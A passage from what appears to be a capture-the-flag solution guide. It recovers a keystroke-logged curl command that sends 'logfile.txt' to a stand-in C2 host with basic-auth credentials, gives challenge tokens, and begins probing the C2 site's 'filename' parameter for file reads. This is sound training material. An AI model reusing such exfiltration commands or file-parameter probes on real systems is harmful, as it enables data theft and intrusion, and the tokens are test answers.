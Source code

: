 Then, go through each item in the array by hand to recover the full command.  

`POST -d "logfile.txt" -u "n0wUcm3:m@lC2_Exfil# http://malicious-c2.com`

5. Determine the username used for the c2 server

The keystrokes from step 4 appear to be part of a `curl` command sending data to the c2 server, `malicious-c2.com`. 

The `-u` option in curl is used to supply a user's basic authentication credentials. In this case, the username is `n0wUcm3` and the password is `m@lC2_Exfil#`

6. Perform a grading check on `challenge.us`.

![Submitting username for grading](./images/c26.03.06.png "Submitting username for grading")

This should return token3, which is `aa97220db87a` in this example, the answer to question 3. 


## Question 4

*What is the token found on a hidden webpage on the C2 server?*

1. Visit `http://malicious-c2.com` from a web browser

This is the website referenced from Question 3, that appears to be the C2 server. 

![Visiting C2 server webpage](./images/c26.04.01.png "Visiting C2 server webpage")

2. Added a query parameter to the URL

The error message presented when visiting the index page indicates that "Query parameter 'filename' is missing!".

Update the URL to include a random 'filename' query parameter (e.g. `http://malicious-c2.com?filename=test`)

![Adding query parameter to URL](./images/c26.04.02a.png "Adding query parameter to URL")

Based on the error message, it appears that the web application is attempting to open a file based on the value of the 'filename' query parameter. 

